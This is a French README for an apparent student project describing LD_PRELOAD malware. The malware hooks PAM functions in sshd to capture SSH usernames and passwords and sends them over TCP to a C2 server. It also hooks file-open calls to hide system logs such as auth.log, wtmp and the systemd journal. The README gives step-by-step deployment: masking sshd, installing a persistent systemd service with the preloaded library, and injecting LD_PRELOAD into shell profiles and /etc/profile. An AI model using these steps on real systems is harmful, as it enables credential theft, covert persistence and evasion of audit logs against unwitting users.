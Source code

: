 Projet de Malware utilisant LD_PRELOAD

Description :

Ce projet consiste en la création d'un malware en C qui intercepte les fonctions d'authentification SSH pour capturer les identifiants des utilisateurs. Il utilise la technique de LD_PRELOAD pour surcharger les fonctions de la bibliothèque PAM (Pluggable Authentication Modules) et ainsi intercepter les appels aux fonctions d'authentification. Les identifiants capturés sont ensuite envoyés à un serveur de Commande et Contrôle (C2) pour un suivi centralisé.

Fonctionnalités :

 - Interception des fonctions pam_get_user et pam_get_item pour capturer les noms d'utilisateur et les mots de passe.
 - Envoi des identifiants capturés à un serveur C2 via une connexion TCP.
 - Blocage de l'accès à certains fichiers sensibles en surchargeant les fonctions open, openat et fopen.

Fichiers du projet
 - pam_auth_logger.c : Contient le code du malware pour intercepter les fonctions PAM et envoyer les identifiants au serveur C2.
 - block_files.c : Contient le code pour bloquer l'accès à certains fichiers en surchargeant les fonctions de la bibliothèque standard C.
 - Makefile : Script de compilation pour générer la bibliothèque partagée libpam_auth_logger.so.
 - srv_tcp.c : Code du serveur C2 qui reçoit et enregistre les identifiants envoyés par le malware.

Avant de procéder a quoi que ce soit sur les machines, effectuez la commande suivante (qui permettra d'installer les outils de compilations,  la bibliotèque libpam + net-tools):

sudo apt install -y build-essential libpam0g-dev openssh-server

Compilation :

Dans un premier temps faites un git clone du projet :

Ouvrez un shell et copier le projet puis faite un :

 -  git clone https://github.com/snipzr/Partiel_C.git

Sur le C2,pour compiler le serveur TCP, utilisez la commande suivante :

- gcc -o srv_tcp srv_tcp.c

Utilisation Démarrage du serveur C2 :

Sur le C2, lancez le serveur TCP :

- ./srv_tcp

Victime :

- sudo su

cd /home/kali/Partiel_C
make clean && make

Vérifier si SSHD Tourne Déjà

systemctl is-active sshd

Si `active`, on doit le désactiver.

Désactiver et Arrêter SSHD

systemctl stop sshd
systemctl disable sshd
systemctl mask sshd

systemctl is-enabled sshd

Cela doit renvoyer disabled, masked ou not-found.

On va créer un service qui charge automatiquement `LD_PRELOAD` au démarrage.

vim /etc/systemd/system/ld_preload_sshd.service

y coller :

[Unit]
Description=SSH Daemon with LD_PRELOAD
After=network.target

[Service]
Environment="LD_PRELOAD=/home/kali/Partiel_C/libpam_auth_logger.so"
ExecStart=/usr/sbin/sshd -D
Restart=on-failure
RestartSec=5s
StandardOutput=journal
StandardError=journal

[Install]
WantedBy=multi-user.target

verifier si le LD_PRELOAD est bien pris en compte :

cat /tmp/debug.log

doit retourner : LD_PRELOAD=/home/kali/Partiel_C/libpam_auth_logger.so

Appliquer et Activer le Service

systemctl daemon-reload
systemctl enable ld_preload_sshd
systemctl start ld_preload_sshd

ainsi le  LD_PRELOAD est bien injecté à chaque démarrage et envera a chaque connexion entrente ssh, les crédentials au C2.

Passons à la partie qui bloque l'accès au fichiers suivants (sans droit root):

1.Fichiers de logs systèmes

/var/log/wtmp /var/log/lastlog /var/log/btmp /var/log/auth.log /var/log/sysstat

2.Journaux de systemd

/var/log/journal

3.Logs liés à l'affichage graphique

Toute occurrence contenant "Xorg." (exemple : /var/log/Xorg.0.log)

On vas utiliser le libpam_auth_logger.so deja existant, pour verifier, dans Partiel_c :

ls -l libpam_auth_logger.so

Si rien ne sort, recompilez : 

make clean && make

Ensuite testez manuellement via :

LD_PRELOAD=~/Partiel_C/libpam_auth_logger.so cat /var/log/auth.log

La commande doit renvoyer une erreur Permission denied.

La suite dependra du shell utillisé , pour savoir le quel on utilise :

echo $0

si bash est utilisé :

echo 'export LD_PRELOAD=~/Partiel_C/libpam_auth_logger.so' >> ~/.bashrc
source ~/.bashrc

si zsh est utilisé :

echo 'export LD_PRELOAD=~/Partiel_C/libpam_auth_logger.so' >> ~/.zshrc
source ~/.zshrc

il suffit de modifier  ~/.shell_utilisé

Vérifie que la variable est bien prise en compte :

echo $LD_PRELOAD

Ce qui affichera : /home/user/Partiel_C/libpam_auth_logger.so

Pour vérifier que le LD=PRELOAD soit toujours chargé, fermez le terminal puis ouvrez en un autre puis :

echo $LD_PRELOAD

Si la variable est toujours definie le LD=PRELOAD se chargera a chaque fois

Essayez maintenant d'ouvrir un des fichier ciblé, ca ne devrai pas fonctionner

ex : cat /var/log/auth.log

FACULTATIF CAR NECESSITE ROOT : Automatisation au démarrage pour TOUS les utilisateurs

Si l'on veux que tout les utilisateurs aient ce LD_PRELOAD sans qu'ils modifient .bashrc/.zshrc, On ajoute cette ligne dans /etc/profile :

echo 'export LD_PRELOAD=/home/kali/Partiel_C/libpam_auth_logger.so' | sudo tee -a /etc/profile-
EXPLICATION :


Fonctionnement de LD_PRELOAD

LD_PRELOAD est une variable d'environnement utilisée sur les systèmes Unix pour spécifier des bibliothèques partagées à charger avant les autres lors de l'exécution d'un programme. Cela permet de surcharger des fonctions spécifiques, offrant ainsi la possibilité de modifier le comportement d'applications sans changer leur code source.

Dans ce projet, LD_PRELOAD nous permet d'intercepter les appels aux fonctions PAM sans modifier le code source du démon SSH. En utilisant cette technique, nous chargeons la bibliothèque libpam_auth_logger.so avant les autres bibliothèques système. Cela redéfinit des fonctions comme pam_get_user et pam_get_item pour capturer les identifiants utilisateur, qui sont ensuite transmis au serveur C2. L'approche par LD_PRELOAD est discrète et évite de nécessiter des droits root, ce qui est en phase avec les objectifs du projet.


Fonctionnement d'un Linker

Un linker, ou éditeur de liens, est un outil qui combine divers modules de code objet en un seul exécutable ou une bibliothèque. Il résout les références entre les symboles (fonctions, variables) définis dans différents modules, permettant ainsi à un programme de fonctionner correctement.

Dans le contexte de LD_PRELOAD, le linker dynamique (ld.so sur les systèmes Linux) joue un rôle clé en redirigeant les appels système vers nos fonctions redéfinies. Lorsque notre bibliothèque est chargée, le linker garantit que les appels aux fonctions PAM (par exemple, pam_get_user) passent par nos définitions personnalisées. Cette redirection est ce qui permet d'intercepter les credentials sans modifier directement les fichiers binaires du démon SSH.


Fonctionnement des Threads sur Linux

Un thread est une unité d'exécution au sein d'un processus. Les threads partagent le même espace mémoire et les mêmes ressources, mais peuvent être exécutés indépendamment, permettant une exécution parallèle au sein d'une application.

Dans ce projet, les threads pourraient être utilisés pour gérer plusieurs connexions simultanément entre les machines infectées et le serveur C2. Par exemple, chaque fois que des credentials sont capturés et transmis, un thread distinct pourrait gérer l'envoi au serveur C2, tout en permettant au malware de continuer à fonctionner en arrière-plan. Cela garantit une exécution fluide et rapide des tâches sans bloquer le système.
